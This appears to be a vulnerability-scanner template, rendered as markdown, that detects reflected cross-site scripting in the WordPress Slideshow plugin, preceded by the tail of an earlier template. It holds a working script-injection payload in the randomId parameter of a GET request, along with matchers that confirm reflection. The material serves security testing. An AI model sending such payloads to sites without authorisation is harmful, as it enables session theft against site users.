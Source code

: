 - words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Slideshow - Cross-Site Scripting

## Description

- WordPress Slideshow plugin contains multiple cross-site scripting vulnerabilities. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - wordpress,xss,wp-plugin,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/slideshow-jquery-image-gallery/views/SlideshowPlugin/slideshow.php?randomId=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---